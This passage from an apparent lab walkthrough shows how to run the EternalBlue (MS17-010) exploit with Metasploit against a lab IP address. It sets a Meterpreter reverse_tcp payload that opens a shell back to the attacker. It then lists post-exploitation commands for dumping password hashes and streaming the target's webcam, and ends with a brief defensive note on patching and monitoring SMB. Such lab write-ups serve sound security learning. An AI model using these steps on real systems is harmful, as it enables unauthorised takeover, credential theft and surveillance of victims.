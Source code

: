 Use that exploit:

```sh
use exploit/windows/smb/ms17_010_eternalblue
show options
```

Set the target’s IP address again:

```sh
set RHOSTS 10.10.217.189
```

Then check the payload settings. Metasploit often defaults to a **Meterpreter** payload (for example, `windows/x64/meterpreter/reverse_tcp`), which is ideal. Confirm that your local IP (LHOST) is correct, so the connection can come back to your machine.

![Options for exploit](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563823155/6d4e795a-abdb-4b08-8b25-292ac134135e.webp)

Finally, run the exploit:

```sh
run
```

---

## Meterpreter Shell and Post-Exploitation

If successful, you will land in a **Meterpreter** shell. Meterpreter is a powerful payload that allows you to:

- Dump password hashes
- Elevate privileges
- Capture webcam streams
- Record microphones, and more.

![Successful meterpreter shell](https://cdn.hashnode.com/res/hashnode/image/upload/v1737563857046/7de15dd6-7905-4ad0-9aea-7b3be8febc35.webp)

Here’s a quick look at some Meterpreter commands:

```sh
sysinfo         # Displays the target system information
getuid          # Shows the user context you’re running under
hashdump        # Dumps SAM password hashes (requires privilege escalation)
webcam_stream   # Streams from the target’s webcam if available
```

The EternalBlue exploit is a prime example of how a single unpatched vulnerability can expose a system for takeover.

Understanding its mechanics helps defensive teams patch systems, monitor network traffic for suspicious SMB communications, and create robust response strategies.

---

## Conclusion
